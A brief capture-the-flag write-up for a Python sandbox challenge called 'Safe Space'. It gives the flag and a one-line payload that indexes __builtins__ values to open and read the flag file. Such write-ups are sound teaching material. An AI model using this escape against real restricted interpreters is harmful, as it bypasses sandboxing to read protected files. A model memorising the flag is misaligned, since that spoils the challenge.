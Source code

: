## Safe Space
flag: dctf{bur5t_y0ur_bubbl3}

### Solution
1. type `__builtins__` to get builtin funcs
2. now just need to make list of them and call them like that, open flag file and read lines
3. flag file is in FILE builtin var
4. so final command is: `list(__builtins__.values())[1](list(__builtins__.values())[0](list(__builtins__.values())[3]).readline())`
